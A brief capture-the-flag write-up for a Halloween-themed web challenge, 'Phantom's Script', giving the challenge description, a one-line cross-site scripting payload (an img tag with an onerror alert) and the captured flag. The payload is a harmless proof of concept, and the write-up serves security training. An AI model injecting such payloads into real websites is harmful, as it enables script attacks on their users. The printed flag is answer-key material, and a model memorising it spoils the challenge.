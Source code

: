 # Web - Phantom's Script

## Description

Note: Wait for the bot to trigger your payload. It might take around \~10 seconds. Every Halloween, an enigmatic blog emerges from the depths of the dark web—Phantom's Script. Its pages are filled with cursed writings and hexed code that ensnare the souls of unwary visitors. The blog's malicious scripts weave dark secrets into the fabric of the internet, spreading corruption with each click. Rumor has it that interacting with the site in unexpected ways can trigger hidden incantations. Will you dare to delve into this haunted scroll, manipulate the scripts, and purge the malevolent code before it claims more victims?

## Homepage

<figure><img src="../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

## Attack

We just need to trigger xss and wait for 10 seconds

```javascript
<img src=x onerror="alert('Boo!')">
```

<figure><img src="../../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

`HTB{xSS-1S_E4SY_wh4t_d0_y0u_th1nk?_2b88ce435772eda79f42654fe0651d27}`\
\
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
